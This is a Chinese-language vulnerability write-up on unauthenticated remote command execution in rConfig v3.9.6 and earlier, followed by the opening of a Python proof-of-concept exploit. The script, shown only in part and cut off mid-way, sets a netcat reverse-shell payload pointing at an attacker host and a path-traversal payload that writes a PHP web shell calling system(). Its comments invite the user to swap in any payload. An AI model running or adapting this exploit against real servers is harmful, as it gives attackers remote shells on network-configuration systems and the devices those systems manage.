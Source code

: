 rConfig v3.9.6 远程命令执行
===========================

一、漏洞简介
------------

rConfig是"开源网络设备配置管理实用程序，可对设备进行频繁的配置快照。开源，由Network
Architects构建-我们知道您的需求！"

rConfig远程未经身份验证的RCE中的两个漏洞。一个漏洞允许未经身份验证的用户进行身份验证，另一个漏洞（身份验证后）允许攻击者执行任意代码。

厂商最初的反应非常迅速，并且立刻发布了一个更新版本（v3.9.6），我们最初是在v3.9.5上验证了该漏洞。但是我们发现，v3.9.6版本中同样存在安全漏洞，并将此情况反应给了厂商。目前为止，我们还不知道有没有安全补丁能够解决或缓解这两个漏洞所带来的影响。

二、漏洞影响
------------

rConfig v3.9.6 及其之前版本

三、复现过程
------------

### poc

> rConfig.py 需要修改代码里面的部分内容

![1.png](resource/rConfigv3.9.6远程命令执行/media/rId25.png)

    import requests

    from requests_toolbelt.multipart.encoder import MultipartEncoder

    import urllib3

    import re

    #from bs4 import BeautifulSoup

     

    urllib3.disable_warnings()

     

    url="https://x.x.x.x/" #change this to fit your URL (adding the last slash)

    payload="nc y.y.y.y 9001 -e /bin/sh"  #change this to whatever payload you want

    payload_rce= "fileName=../www/test.php&code=<%3fphp+echo+system('ls')%3b%3f>&id=3" #if you want to use Method 2 for RCE, use a PHP, urlencoded payload as the value of the code parameter

     

    print("Connecting to: {}".format(url))

    print("Connect back is set to: {}, please launch 'nc -lv 9001'".format(payload))

     

    x = requests.get(url+"login.php", verify=False)

    version = re.search("<p>(.*)<span>", x.text)

    version = version.group(1)
